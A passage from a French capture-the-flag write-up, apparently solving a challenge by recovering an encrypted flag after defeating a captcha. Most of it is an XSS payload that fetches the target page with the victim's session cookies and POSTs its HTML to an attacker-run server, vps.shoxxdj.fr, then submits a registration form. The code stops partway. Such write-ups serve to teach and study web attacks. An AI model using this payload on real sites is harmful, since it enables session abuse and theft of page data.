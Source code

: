 ### Résolution

A partir du code obtenu, je sais maintenant qu'il faut :

- Résoudre le captcha
- Récupérer le flag chiffré

Deux options sont disponibles pour la suite :

- Soit réitérer l'opération jusqu'à avoir un captcha identique et ainsi la meme paire de clef, ce qui produira le meme résultat chiffré. A ce moment la il suffira d'acheter la clef.
- Soit générer la clef à partir de la seed.

Disposant de l'ensemble du code je choisi la seconde option.

Il faut à présent, récupérer le captcha, le résoudre coté attaquant le renvoyer et récupérer la clef.

```html
<script>
  const sourceUrl = "https://under_construction.local";
  const destinationUrl = "https://vps.shoxxdj.fr";

  function notify(path, data) {
    return fetch(destinationUrl + path, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(data),
    });
  }

  async function waitResponse(path, data) {
    const response = await fetch(destinationUrl + path, {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(data),
    });
    const result = await response.json();
    return result.data;
  }

  (async () => {
    try {
      await notify("/part-two", { status: "xssed" });

      const response = await fetch(sourceUrl, {
        credentials: "include",
      });
      const html = await response.text();
      const captcha = await waitResponse("/captcha", {
        bla: "ok1",
        content: html,
      });
      const respon = await fetch(sourceUrl + "/register", {
        method: "POST",
        credentials: "include",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded",
        },
        body: new URLSearchParams({
          username: "a",
          password: "a",
          captcha: captcha,
        }),
      });

```